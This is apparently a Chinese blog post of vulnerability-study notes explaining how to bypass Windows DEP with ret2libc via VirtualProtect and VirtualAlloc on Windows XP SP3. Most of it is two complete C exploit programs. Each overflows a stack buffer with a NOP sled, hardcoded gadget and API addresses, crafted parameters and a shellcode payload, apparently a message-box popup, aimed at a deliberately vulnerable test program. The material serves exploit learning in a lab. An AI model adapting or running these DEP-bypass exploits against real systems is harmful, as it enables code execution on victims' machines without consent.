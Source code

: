 ```yaml
---
title: 漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
date: 2020-11-19 17:43:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP/)

## 利用VirtualProtect攻击DEP

### 原理

> 利用`VirtualProtect`函数将栈页内存属性改为可执行

### 前置内容

- VirtualProtect参数

```cpp
BOOL VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);

// 所以可以这样写
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

- 这里势必存在0，因此攻击函数换为memcpy

### 步骤

- 修复EBP，这样调用函数的时候不会内存读取违规而异常
- 填入VirtualProtect的地址，将会返回于此
- 填入空的指令
- 填入返回地址
- 填入函数的参数
- 填入shellcode本身

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include<windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret `fix ebp`
"\xD4\x1A\x80\x7C" // VirtualProtect Address
"\x90\x90\x90\x90"
"\x8C\xFE\x12\x00" // ret Address
"\xB0\xFD\x12\x00" // Param Address: 0x0012FDB0
"\xFF\x00\x00\x00" // Param Size: 0x100
"\x40\x00\x00\x00" // Param NewProtect: 0x40
"\x00\x00\x3F\x00" // Param pOldProtect: 0x00910000
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char str[176];
    memcpy(str, shellcode, 420);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

## 利用VirtualAlloc攻击DEP

### 前置内容

- VirtualAlloc参数

```cpp
LPVOID WINAPI VirtualAlloc(
    __in_opt LPVOID lpAddress,
    __in SIZE_T dwSize,
    __in DWORD flAllocationType,
    __in DWORD flProtect
)
```

- 参数说明
  - `lpAddress`，申请内存区域的地址，如果这个参数是`NULL`，系统将会决定分配内存区域的位置，并且按`64KB`向上取整
  - `dwSize`，申请内存区域的大小
  - `flAllocationType`，申请内存的类型
  - `flProtect`，申请内存的访问控制类型，如读、写、执行等权限。内存申请成功时函数返回申请内存的起始地址，申请失败时返回`NULL`

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret 4
"\xE1\x9A\x80\x7C" // Address of VirtualAlloc
"\x90\x90\x90\x90"
"\x70\x6F\xC1\x77" // VirtualAlloc ret address
"\x00\x00\x03\x00" // Param: lpAddress
"\xFF\x00\x00\x00" // Param: dwSize
"\x00\x10\x00\x00" // Param: flAllocationType
"\x40\x00\x00\x00" // Param: flProtect
"\x00\x00\x03\x00" // memcpy ret address
"\x00\x00\x03\x00" // Param: destin
"\x94\xFE\x13\x00" // Param: source
"\xFF\x00\x00\x00" // Param: n
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

### 技术细节

- 首先使用VirtualAlloc申请一段空间用于执行shellcode
- 随后使用memcpy将shellcode复制过去
- 最后在memcpy返回时直接返回到shellcode payload的起始地址

